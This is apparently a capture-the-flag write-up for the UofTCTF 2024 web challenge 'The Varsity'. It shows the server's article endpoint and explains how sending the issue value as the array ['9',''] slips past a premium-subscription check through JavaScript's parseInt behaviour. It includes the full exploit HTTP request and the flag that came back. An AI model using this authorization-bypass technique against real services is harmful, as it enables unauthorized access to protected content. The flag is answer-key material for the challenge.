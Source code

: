 ```yaml
---
title: The Varsity
date: 2024-01-16
tags: 
- web
- js
- author-hartmannsyg
categories: UofTCTF 2024
---
```


written by {% person hartmannsyg %}

We are supposed to access the 10th article (index 9). However that require's a premium subscription, which we cannot get (as far as I know it is impregnable).

{% ccb gutter1:1-34 lang:js highlight:14,20,26 %}
app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
{% endccb %}

Effectively, we need an `issue` what is less than are equal to 9 (`<=9`), but becomes 9 after `parseInt()`:
```js
let issue = ["9", ""]
console.log(issue <= 9) // false
console.log(parseInt(issue)) // 9 
```

So we send our array: `["9", ""]`:

```http
POST /article HTTP/1.1
Host: uoftctf-the-varsity.chals.io
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJzdWJzY3JpcHRpb24iOiJndWVzdCIsImlhdCI6MTcwNTM3NTMyOSwiZXhwIjoxNzA1NDYxNzI5fQ.P1qaLqOO9t1rOVg__dXiCC67oycdtz1GaWJkkv54zOo
Content-Length: 20
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://uoftctf-the-varsity.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-the-varsity.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{"issue":["9",""]}
```
response:
```json
{
    "title":"UofT Hosts its 2nd Inaugural Capture the Flag Event",
    "content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"
}
```